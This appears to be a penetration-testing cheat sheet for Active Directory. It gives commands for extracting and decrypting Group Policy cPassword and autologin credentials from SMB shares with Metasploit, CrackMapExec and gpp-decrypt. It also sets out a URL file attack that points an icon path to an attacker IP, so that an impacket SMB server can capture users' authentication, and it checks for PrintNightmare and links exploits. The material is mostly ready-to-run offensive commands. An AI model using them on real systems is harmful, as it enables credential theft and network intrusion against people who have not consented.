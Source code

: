 ## Group Managed Service Accounts

## GPP / cPassword

### Metasploit
```
use auxiliar/smb_enum_gpp
Fill out all options
Run the module
gpp-decrypt <cpassword> 
```

### CrackMapExec
```
crackmapexec smb 192.168.56.0/24 -u 'usernamew' -p 'password' -M gpp_password
gpp-decrypt <cpassword>
```

### Manual
- Find policies folder on the share
- Find Groups.xml
- Groups.xml might have cpassword
```
gpp-decrypt <cpassword> 
```

## GPP Autologin
- Find Registry.xml files in shares
```
crackmapexec smb 192.168.56.0/24 -u 'usernamew' -p 'password' -M gpp_autologin
```

## URL File Attack (Can also use Farmer.exe and Crop.exe)
- Create a file with name "@test.url"
- Paste the following text into the file
```
`[InternetShortcut]`
`URL=blah`
`WorkingDirectory=blah`
`IconFile=\\<attacker-IP>\%USERNAME%.icon`
`IconIndex=1`
```
- Run `impacket-smbserver -smb2support test .` to host a smb share and Wait for someone to open the share

## PrintNightmare
`impacket-rpcdump -port 135 <target-ip> | grep -E 'MS-RPRN|MS-PAR'` (To check if vulnerable)
- SharpPrintNightmare
- https://github.com/cube0x0/CVE-2021-1675
- https://github.com/calebstewart/CVE-2021-1675
